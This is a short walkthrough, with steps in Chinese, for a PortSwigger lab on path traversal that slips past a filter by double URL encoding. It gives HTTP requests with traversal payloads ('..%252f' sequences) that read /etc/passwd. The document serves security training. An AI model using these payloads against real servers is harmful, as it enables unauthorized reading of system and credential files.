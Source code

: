 # File path traversal, traversal sequences stripped with superfluous URL-decode

## Information
---

- [PortSwigger - Lab: File path traversal, traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

This lab contains a file path traversal vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the /etc/passwd file. 

## Solution
---

- [URL Decode and Encode](https://www.urlencoder.org/)
- [W2school - HTML URL Encoding Reference](https://www.w3schools.com/tags/ref_urlencode.ASP0)

1. 嘗試將 **filename** 更改為 URL 編碼後的值。
    ```
    GET /image?filename=..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
    ...
    ```
    - 嘗試過後發現不行，則嘗試在對其進行一次編碼。

2. 嘗試再次編碼。
    ```
    GET /image?filename=..%252f..%252f..%252fetc%252fpasswd HTTP/1.1
    ...
    ```